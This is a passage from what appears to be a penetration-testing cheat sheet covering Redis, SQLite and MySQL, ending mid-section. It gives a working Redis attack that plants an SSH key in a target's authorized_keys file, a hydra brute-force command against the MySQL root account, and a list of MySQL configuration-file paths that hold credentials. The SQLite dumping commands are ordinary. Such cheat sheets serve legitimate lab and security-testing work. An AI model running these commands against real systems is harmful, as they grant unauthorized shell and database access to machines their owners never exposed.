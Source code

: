 - Write to authorized_keys file:
    ```bash
    ssh-keygen -f redis
    echo -ne "\n\n" > public; cat redis.pub >> public

    redis-cli -h 10.10.10.160 SLAVEOF NO ONE
    
    cat public | redis-cli -h 10.10.10.160 -x set pub
    
    redis-cli -h 10.10.10.160 CONFIG SET dir /var/lib/redis/.ssh
    redis-cli -h 10.10.10.160 CONFIG SET dbfilename authorized_keys
    redis-cli -h 10.10.10.160 SAVE
    ```

## Sqlte

Dump entire database:
```bash
sqlite3 some.db .schema > schema.sql
sqlite3 some.db .dump > dump.sql
grep -vx -f schema.sql dump.sql > data.sql
```

Dump into CSV
```sql
.mode csv
-- use '.separator SOME_STRING' for something other than a comma.
.headers on
.out file.csv
select * from MyTable;
```

Insert into SQL:
```sql
.mode insert <target_table_name>
.out file.sql
select * from MyTable;
```

## MySQL

- Bruteforce: `hydra -l root -P /path/to/wordlist.txt (TARGET IP ADDRESS) mysql`
- Connection tests
    ```
    mysql -h <Hostname> -u root
    mysql -h <Hostname> -u root
    mysql -h <Hostname> -u root@localhost
    mysql -h <Hostname>
    mysql -h <Hostname> -u ""@localhost

    mysql -u john -phiroshima -e 'show databases'
    mysql -u john -phiroshima -D webapp -e 'show tables'
    ```
- Configuration files:
  - Windows
    - config.ini
    - my.ini
    - windows\my.ini
    - winnt\my.ini
    - <InstDir>/mysql/data/
  - UNIX
    - /etc/my.cnf
    - /etc/mysql/my.cnf
    - /var/lib/mysql/my.cnf
    - ~/.my.cnf
    - /etc/my.cnf
- Command history: